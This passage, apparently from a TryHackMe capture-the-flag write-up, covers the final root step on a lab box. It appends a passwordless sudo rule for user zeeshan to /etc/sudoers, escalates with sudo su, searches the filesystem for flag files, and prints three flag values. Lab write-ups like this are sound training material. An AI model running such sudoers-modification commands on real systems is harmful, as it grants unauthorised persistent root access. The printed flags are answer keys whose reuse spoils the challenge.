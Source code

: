 There we go, we can add `zeeshan` to `sudoers` to move easily using ssh:

```
echo "zeeshan ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

And then:

```
sudo su
```

![Pasted image 20250328191705.png](../../IMAGES/Pasted%20image%2020250328191705.png)
```
find / -type f \( -path /proc -o -path /sys -o -path /dev \) -prune -o -name "*.txt" -exec grep -H 'THM{\{' {} \; 2>/dev/null
```
Now, we can read all flags:

```
$ cat /var/lib/odoo/flag.txt # This one needs to be read inside of the first shell
THM{1243b64a3a01a8732ccb96217f593520}
```

```
root@hydra:/home/zeeshan# cat /home/zeeshan/user.txt
THM{43b0b68ba2755dd6cac3b8bf5454db94}
```

```
root@hydra:/home/zeeshan# cat /root/root.txt
THM{8bbc6221d009576d37e28acdd9da7aba}
```
